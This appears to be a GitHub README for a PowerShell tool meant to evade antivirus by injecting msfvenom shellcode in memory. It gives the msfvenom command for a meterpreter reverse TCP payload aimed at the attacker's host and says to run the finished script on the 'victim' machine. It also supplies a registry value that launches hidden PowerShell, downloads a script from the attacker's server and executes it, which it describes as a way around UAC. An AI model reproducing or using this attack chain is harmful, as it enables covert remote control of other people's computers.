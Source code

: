 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15


<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>

<h3>We can combine this script with the use of the following command in order to download and inject the script as an Administrator user bypassing UAC:</h3>

First of all you have to setup a python web server to host the payload, change the attacker IP and the PowerShell script name.

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/script.ps1'); Invoke-Function"
```
